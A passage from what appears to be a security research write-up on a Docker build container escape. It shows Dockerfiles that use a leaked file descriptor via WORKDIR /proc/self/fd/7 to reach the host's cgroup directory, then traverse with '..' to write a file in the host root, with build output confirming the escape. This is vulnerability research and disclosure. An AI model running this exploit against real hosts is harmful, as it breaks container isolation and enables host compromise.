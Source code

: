 Testing our theory
This leaves us with fd 7. This fd is a handle to a directory that was not observed to be opened in this process and definitely not after the pivot_root. This indicates that it is a handle to the host, "real", /sys/fs/cgroup directory. This is potentially very interesting as if we can successfully chdir into this path, via /proc/self/fd/7, we may have access to files outside our container. The fastest way to validate is to try so we can build out a new minimal Dockerfile to test our theory:

FROM alpine
WORKDIR /proc/self/fd/7
RUN ls -l
And we can build it and see what happens:

$ docker build --no-cache --progress=plain .
[snipped for brevity]
#5 [2/3] WORKDIR /proc/self/fd/7
#5 CACHED

#6 [3/3] RUN ls -l
#6 0.152 total 0
#6 0.152 drwxr-xr-x    2 root     root             0 Nov 24 20:30 buildkit
#6 0.152 -r--r--r--    1 root     root             0 Nov 21 11:20 cgroup.controllers
#6 0.152 -rw-r--r--    1 root     root             0 Nov 21 11:20 cgroup.max.depth
#6 0.152 -rw-r--r--    1 root     root             0 Nov 21 11:20 cgroup.max.descendants
#6 0.152 -rw-r--r--    1 root     root             0 Nov 21 11:20 cgroup.procs
[snipped for brevity]
We can see we’ve successfully chdir-ed into a cgroup mount, based on the filenames, but we have yet to confirm it is the root cgroup mount. Once again, the easiest way to validate is to try. We can create an indicator in the root cgroup mount and see it is indeed reflected in the output from docker build:

$ sudo mkdir /sys/fs/cgroup/0EXPLOIT
$ docker build --no-cache --progress=plain .
[snipped for brevity]
#6 [3/3] RUN ls -l
#6 0.179 total 0
#6 0.179 drwxr-xr-x    2 root     root             0 Dec 18 16:09 0EXPLOIT
[snipped for brevity]
Building a proof of concept
This is very promising, but there are still a lot of things that could go wrong. We can now take our time and validate each assumption to ensure that we are looking at what we think we’re looking at… or we can just try a better payload. Given a current working directory we don’t technically have access to, we can’t do any absolute path operations, but .. on Unix is special. Therefore, we can attempt to traverse out of this directory and try to create a file somewhere. This is something of a "best case assumption" as to the exploitation, but if successful, it can short-circuit a lot of iterative trial and error. Therefore, our next Dockerfile attempt will be the following, which will attempt to place an attacker-controlled file in the host root directory:

FROM alpine
WORKDIR /proc/self/fd/7
RUN cd ../../../../../../../../../../../ && touch I_HAVE_BROKEN_OUT
And we try it:

$ docker build --progress=plain --no-cache .
[snipped for brevity]
#7 DONE 0.0s
$ ls -l /I_HAVE_BROKEN_OUT
-rw-r--r-- 1 root root 0 Dec 18 16:14 /I_HAVE_BROKEN_OUT
Success!
